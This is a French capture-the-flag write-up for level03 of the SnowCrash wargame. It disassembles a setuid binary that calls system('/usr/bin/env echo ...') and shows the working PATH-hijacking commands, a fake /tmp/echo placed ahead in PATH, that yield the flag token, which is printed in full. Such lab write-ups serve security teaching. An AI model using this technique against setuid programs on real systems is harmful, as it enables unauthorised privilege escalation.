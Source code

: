 # 03 - Binary exploit: PATH

- On se connecte en tant que level03.
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```
level03@SnowCrash:~$ ./level03
Exploit me
```


- Un binaire nous a été laissé, il appartient à l'utilisateur flag03 et au groupe level03. De plus, les [bits de permission setuid et setgid](https://en.wikipedia.org/wiki/Setuid) sont activés. Examinons ce binaire de plus près à l'aide de [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```


- Nous pouvons voir que le programme fait un appel à `<system@plt>` juste après avoir déplacé l'adresse `0x80485e0` au sommet de la stack.
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```


- Donc, le programme fait `system("/usr/bin/env echo Exploit me")`. En **bash**, `echo` est un built-in, mais pas en **sh**, on peut donc exploiter la variable d'environnement `PATH`.
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
```

```
level03@SnowCrash:~$ chmod +x /tmp/echo
```

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```
level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```